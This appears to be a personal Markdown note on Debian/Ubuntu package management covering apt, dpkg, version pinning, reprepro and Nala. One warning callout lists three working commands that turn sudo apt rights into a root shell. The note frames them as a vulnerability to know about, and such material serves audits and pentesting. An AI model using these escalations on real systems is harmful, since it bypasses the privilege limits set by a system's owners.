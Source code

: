 ```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```

# Debian

## Distros

|           | Codename   | Release    | End-of-life |
| --------- | ---------- | ---------- | ----------- |
| Debian 12 | [bookworm] | 2023-06-10 |             |
| Debian 11 | [bullseye] | 2021-08-14 |             |
|           |            |            |             |

## Repositories and Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.


### dpkg

```bash
## extract package
dpkg -x [-X] <package> <destination>
## compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

Tags: #linux/apt

```bash
# Add repository: add file in `/etc/apt/sources.list.d/` with
# deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main

# Install specific version
sudo apt install package_name=package_version
# empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
apt-get clean
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
>  echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
>  sudo apt-get install -c $TF sl
> ```

- [apt-fast](https://github.com/ilikenwf/apt-fast) (unofficial package): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package


#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```


#### reprepro

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
## add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
## test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
## actually pull changes to target channel: replace checkpull by pull
```


#### Nala

[Github](https://github.com/volitank/nala) | [Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


### References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>
[bullseye]: <https://www.debian.org/releases/bullseye/>
[bookworm]: <https://www.debian.org/releases/bookworm/>
